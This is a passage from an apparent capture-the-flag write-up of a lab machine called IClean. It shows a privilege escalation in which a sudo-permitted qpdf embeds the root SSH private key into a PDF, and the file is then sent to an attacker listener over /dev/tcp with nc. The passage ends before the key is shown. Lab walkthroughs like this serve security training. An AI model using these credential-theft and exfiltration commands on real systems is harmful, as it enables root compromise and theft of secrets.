 I also have the version:

```bash
consuela@iclean:~$ /usr/bin/qpdf --version
qpdf version 10.6.3
Run qpdf --copyright to see copyright and license information.
```

There isn't a known vulnerability for this version. However, I can read its [documentation](https://qpdf.readthedocs.io/en/stable/) and see if I can find any functionality to abuse this sudo privilege as root. In [this section](https://qpdf.readthedocs.io/en/stable/cli.html#embedded-files-attachments) there are options to list, add or delete embedded files in pdfs, so I will use --add-attachment to add /root/.ssh/id_rsa to a dummy pdf. For that, I will use a http server to upload my pdf file to the machine:

**Attacker machine**:
```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

**IClean machine**:
```bash
consuela@iclean:~$ cd /tmp/
consuela@iclean:/tmp$ wget http://10.10.15.95/dummy.pdf
--2024-07-31 20:09:49--  http://10.10.15.95/dummy.pdf
Connecting to 10.10.15.95:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13264 (13K) [application/pdf]
Saving to: ‘dummy.pdf’

dummy.pdf                                     100%[=================================================================================================>]  12.95K  --.-KB/s    in 0s      

2024-07-31 20:09:49 (190 MB/s) - ‘dummy.pdf’ saved [13264/13264]
```

Now execute this command to add the attachment /root/.ssh/id_rsa to dummyWithSSHKey.pdf:

```bash
consuela@iclean:/tmp$ sudo qpdf dummy.pdf dummyWithSSHKey.pdf --add-attachment /root/.ssh/id_rsa --
```

I will transfer it to my machine to work better:

**Attacker**:
```bash
❯ nc -lvnp 443 > dummyWithSSHKey.pdf
listening on [any] 443 ...
```

**IClean**:
```bash
consuela@iclean:/tmp$ cat dummyWithSSHKey.pdf > /dev/tcp/10.10.15.95/443 0>&1
```

Viewing it in Firefox, it's possible to obtain the root ssh key:
